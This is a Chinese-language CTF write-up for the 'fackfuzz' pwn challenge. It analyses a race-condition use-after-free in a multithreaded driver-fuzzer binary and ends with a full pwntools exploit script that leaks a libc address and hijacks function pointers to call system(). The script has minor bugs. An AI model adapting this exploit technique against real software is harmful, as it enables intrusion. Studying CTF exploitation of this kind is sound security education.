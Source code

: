 #安恒杯武汉大学邀请赛fackfuzz Writeup
##漏洞分析
这道题目是我的一个本科同学出的，也是CTF中比较少见的多线程竞态条件的题目，我觉得这个题目出的还是蛮好的，于是就写一下writeup
运行一下可执行，可以看到此程序是一个驱动的fuzz程序

	---->fack driver fuzzing<----
	1. add a driver to fuzz
	2. prepare fuzz data
	3. start fuzzing
	4. stop fuzzing
	5. view driver list
	6. exit

*	add a driver to fuzz 会分配一个形为
	{drivername readfuzzer writefuzzer ioctlfuzzer}的结构体
*	prepare fuzz data会分配一个结构体，包含start fuzzing时调用的函数所需参数
*	start fuzzing会启用三个fuzz的线程分别对驱动进行不断读、写、以及ioctl。
*	stop fuzzing会free掉在add driver和prepare data所分配的结构体。
*	view driver list会查看当前已添加的driver的driver name列表

程序的漏洞存在于函数**sub_401336**中

	void __fastcall __noreturn freethread(void *a1)
	{
	  int idx; // [rsp+1Ch] [rbp-4h]@1
	
	  idx = *(_DWORD *)a1;
	  currentidx = idx;
	  isstop[idx] = 1;
	  free(ptr[idx]);
	  puts("wait for fuzz thread done");
	  sleep(3u);
	  ptr[idx] = 0LL;
	  if ( threadnum < 0 )
	    threadnum = 0;
	  free(data[idx]);
	  data[idx] = 0LL;
	  puts("stop this fuzz done!");
	  pthread_exit(0LL);
	}

此函数会在调用stop fuzzing的时候以pthread_create创建新进程的形式运行。由于free之后会有一个3秒的间隔。这个间隔原意是等待fuzz线程的结束，但是也导致了一个竞态条件的漏洞。

在调用stop fuzzing之后，ptr[idx]会被free掉，但是ptr[idx]在3秒内并没有置0，所以通过这个竞态条件来构造use after free漏洞。
##漏洞利用
###信息泄漏
当ptr[idx]被free掉之后，原本的driver name因为堆块被free会被覆盖成unsortbin的地址，如果主线程再次调用view driver list，即可拿到unsortbin的地址，这是一个libc的data段的地址，根据这个地址我们可以算出system函数地址。

###劫持控制流
以下函数为stop fuzzing的处理函数,该函数通过比对driver name获取一个idx，最终这个idx会作为函数**sub_401336**中的idx。

	__int64 stopfuzz()
	{
	  signed int i; // [rsp+Ch] [rbp-74h]@3
	  char s2; // [rsp+10h] [rbp-70h]@1
	  __int64 v3; // [rsp+78h] [rbp-8h]@1
	
	  v3 = *MK_FP(__FS__, 40LL);
	  puts("input the driver name to stop fuzzing:");
	  readn((__int64)&s2, 0x68uLL);
	  if ( (unsigned int)checkname(&s2) )
	  {
	    for ( i = 0; i <= 9; ++i )
	    {
	      if ( ptr[i] && !strcmp(ptr[i], &s2) )
	      {
	        stop(i);
	        return *MK_FP(__FS__, 40LL) ^ v3;
	      }
	    }
	    puts("error name");
	  }
	  else
	  {
	    puts("invalid name");
	  }
	  return *MK_FP(__FS__, 40LL) ^ v3;
	}
但是，如果我们如果按照以下顺序进行调用

1. add a new driver
2. prepare fuzz data
3. prepare fuzz data
4. stop fuzzing
5. add a new driver
6. stop fuzzing
7. prepare fuzz data

调用1 2 3会为ptr[0] data[0] data[1]分配内存，调用会释放ptr[0]的所对应的块，但是由于ptr[0]在3秒内并不会被置空。

5被调用后，ptr[1]会被重新分配ptr[0]所指向的内存，也就是说ptr[0]与ptr[1]指向的是同一块内存，

接着调用6，ptr[0]与ptr[1]所指向的内存会被再次free，由于ptr[0]与ptr[1]指向同一块内容，所以根据stop fuzzing的处理函数的逻辑，只有ptr[0]会被在3秒后置0，ptr[1]则会指向一个被free的内存块

最后调用7，将ptr[1]所指向的内存重新分配到字符串readdata中，通过对readdata进行修改即可控制ptr[1]所指向的带有函数指针的结构体的值。从而劫持控制流。

值得一提的是，由于我们拿到的shell是子线程的shell，所以我们无法直接与该shell进行交互，我们可以通过system("cat flag")拿到flag。

##exploit代码
	from pwn import *;
	from time import sleep;
	port=8888
	objname = "fackfuzz"
	objpath = "./"+objname
	io = process(objpath)
	
	def readuntil(delim):
	    data = io.recvuntil(delim);
	    print data;
	    return data;
	
	def readlen(len):
	    data = io.recv(len,1);
	    return data;
	
	def readall():
	    data = io.recv(4096,1);
	    print data;
	    return data;
	
	def write(data):
	    sleep(0.05)
	    io.send(str(data));
	    
	def writeline(data):
	    sleep(0.05)
	    io.sendline(str(data));
	
	def padding(size):
	    cf = "/bin/shcat/home/ctf/flag";
	    paddata = "";
	    for i in range(size):
	        paddatax += cf[i%len(cf)];
	    return paddata;
	
	def newdriver(name):
	    writeline(1);
	    writeline(name)
	    readall()
	def prepare(readsize,readdata):
	    writeline(2);
	    writeline(readsize);
	    writeline(readdata);
	    writeline(2);
	    writeline(1);
	    writeline(1);
	    writeline(1);
	    writeline(1);
	    readall()
	def startfuzz(name):
	    writeline(3);
	    writeline(name);
	    readall();
	def stopfuzz(name):
	    writeline(4);
	    writeline(name);
	    readall();
	def viewdriver():
	    writeline(5);
	    print readuntil(":");
	    return readuntil("\n")[:-1];
	    	
	def attack(ip=0):
	    global io
	    if ip != 0:
	        io = remote(ip,port)
	    newdriver("/dev/haha1");
	    prepare(10,"haha1")
	    prepare(50,"cat flag > /dev/fd/1\x00")
	    stopfuzz("/dev/haha1");
	    usortbin=viewdriver();
	    usortbin=usortbin+(8-len(usortbin))*'\x00';
	    usortbin=u64(usortbin);
	    system=usortbin-0x378178
	    print hex(system);
	    newdriver("/dev/haha3");0x01e36010
	    stopfuzz("/dev/haha3");
	    sleep(4)
	    
	    payload="/dev/haha4\x00"
	    payload+=(0x68-len(payload))*"A";
	    payload+=p64(system)*3;
	    prepare(0x88,payload);
	    print viewdriver()
	    
	    startfuzz("/dev/haha4");
	    sleep(3)
	    readall()＃get flag

	attack()